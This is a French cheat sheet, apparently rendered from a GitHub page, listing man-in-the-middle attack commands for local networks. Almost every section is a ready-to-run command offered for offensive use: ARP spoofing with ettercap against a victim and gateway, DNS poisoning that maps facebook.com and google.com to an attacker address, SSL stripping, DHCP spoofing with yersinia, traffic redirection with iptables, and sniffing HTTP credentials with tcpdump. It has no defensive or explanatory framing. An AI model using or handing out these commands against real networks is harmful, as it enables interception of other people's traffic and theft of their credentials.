 ## Attaque ARP Spoofing pour intercepter le trafic

```bash
ettercap -Tq -i eth0 -M arp:remote /IP_VICTIME/ /IP_PASSERELLE/
```

## Empoisonnement DNS avec Ettercap

```bash
cat /etc/ettercap/etter.dns
# domaine_victime A adresse_attaquant
```

Lancer Ettercap :
- Ajouter l'IP cible
- Activer `dns_spoof`

## Démarrer un faux serveur DNS avec dnsspoof

```bash
dnsspoof -i eth0 -f dns_hosts
```
Créer un fichier `dns_hosts` :
```bash
192.168.1.100 facebook.com
192.168.1.100 google.com
```

## Redirection du trafic avec iptables

```bash
iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
```

## SSL Stripping pour capturer les requêtes HTTPS

```bash
sslstrip -l 8080
```

## DHCP Spoofing pour devenir le gateway

```bash
yersinia dhcp -attack 1
```

## Proxy MITM avec mitmproxy

```bash
mitmproxy -T --host
```

Analyser le trafic avec l'interface web de mitmproxy :

```bash
mitmweb
```

## Capture des identifiants avec Wireshark ou tcpdump

```bash
tcpdump -i eth0 port 80
```